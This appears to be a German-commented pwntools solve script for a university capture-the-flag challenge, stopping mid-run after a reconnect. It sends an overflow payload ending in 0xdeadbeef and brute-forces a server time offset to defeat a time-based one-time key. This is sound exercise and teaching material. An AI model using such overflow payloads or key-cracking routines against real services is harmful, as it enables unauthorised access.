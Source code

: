 Script angepasst damit es automatisch das server time offset crackt:
```python
from pwn import *
import time

# PTY steht für Pseudo-Terminal
pty = process.PTY


# Funktion zum Knacken des Zeitbasierten Einmalschlüssels
def crack(curr, goal):
    i = 0
    while True:
        # Versuche, den Schlüssel zu finden, indem du ihn mit einer Inkrementierung probierst
        tmp = curr + i
        tmp = tmp ^ (tmp >> 0xc)
        tmp = tmp ^ (tmp << 0x19)
        tmp = tmp ^ (tmp >> 0x1b)

        if tmp == goal:
            return i

        # Versuche das Gleiche mit einer Dekrementierung
        tmp = curr - i
        tmp = tmp ^ (tmp >> 0xc)
        tmp = tmp ^ (tmp << 0x19)
        tmp = tmp ^ (tmp >> 0x1b)

        if tmp == goal:
            return -i

        i = i + 1


# Endlosschleife für die Kommunikation mit dem Server
while True:
    # Verbindung zum Server herstellen
    p = remote("tank.informatik.hs-mannheim.de", 3114)

    # Round 1: Primfaktorzerlegung
    p.sendlineafter(b"?", b"10071 426469")

    # Round 2: Senden eines speziellen Strings
    p.sendlineafter(b"?", b"AAAAAAAAAA\xEF\xBE\xAD\xDE")

    # Round 3: Manipulation der Serverzeit
    currtime = int(time.time())  # Aktuelle Serverzeit
    tmp = currtime
    currtime = currtime ^ (currtime >> 0xc)
    currtime = currtime ^ (currtime << 0x19)
    currtime = currtime ^ (currtime >> 0x1b)

    # Senden der manipulierten Zeit und Empfangen der Zielzeit
    p.sendlineafter(b"?", str.encode(str(currtime)))
    p.recvuntil(b"an ")
    goaltime = p.recvall().decode()[:-1]
    timeoffset = crack(tmp, int(goaltime[:-1]))

    # Erneute Verbindung zum Server herstellen
    p = remote("tank.informatik.hs-mannheim.de", 3114)

    # Round 1: Primfaktorzerlegung
    p.sendlineafter(b"?", b"10071 426469")

```